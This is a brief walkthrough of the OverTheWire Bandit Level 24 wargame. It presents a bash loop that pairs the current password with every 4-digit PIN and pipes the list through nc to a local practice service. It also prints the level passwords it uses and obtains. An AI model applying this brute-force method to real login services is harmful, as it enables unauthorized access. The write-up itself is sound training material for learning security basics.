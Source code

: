 # Bandit Level 24

In this challenge we have to submit the current level's password and a secret 4-character password to a server. We are told that there is no better way than to try every combination.

We need to write a script to do this for us, because doing it by hand would take a very long time. Here is an example of one:

```sh
#!/bin/bash
password=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

for i in {0000..9999}; do
    echo $password $i >>list.txt
done
```

After running this script we can submit `list.txt` to `localhost:30002`
> `cat list.txt | nc localhost 30002`

This command will eventually provide the correct 4-character code to the server, at which point it will respond with the password: `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
